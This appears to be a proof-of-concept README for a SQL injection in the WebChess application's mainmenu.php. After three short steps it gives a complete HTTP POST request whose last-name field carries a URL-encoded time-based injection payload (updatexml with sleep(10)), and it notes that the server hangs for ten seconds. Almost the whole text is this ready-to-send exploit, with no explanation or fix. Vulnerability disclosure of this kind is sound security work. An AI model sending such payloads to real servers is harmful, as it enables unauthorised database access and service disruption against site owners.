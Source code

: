 # webchess_sqli_poc

1. register 1 new user with password:123
2. login as the new user
3. send the following malicious packet

POST /webchess/mainmenu.php HTTP/1.1

Host: 127.0.0.1

Content-Length: 216

Cache-Control: max-age=0

sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="104"

sec-ch-ua-mobile: ?0

sec-ch-ua-platform: "Linux"

Upgrade-Insecure-Requests: 1

Origin: http://127.0.0.1

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Sec-Fetch-Site: same-origin

Sec-Fetch-Mode: navigate

Sec-Fetch-User: ?1

Sec-Fetch-Dest: document

Referer: http://127.0.0.1/webchess/mainmenu.php

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Cookie: PHPSESSID=0h36rka0b1ijafmi9enqn3cjat

Connection: close



txtFirstName=test11&txtLastName=%27+or+updatexml%280%2Cconcat%280x7e%2C%28select+*+from+%28select%28sleep%2810%29%29%29a%29%29%2C0%29+or+%27&pwdOldPassword=123&pwdPassword=123&pwdPassword2=123&ToDo=UpdatePersonalInfo

4. The server will be hanged for 10s
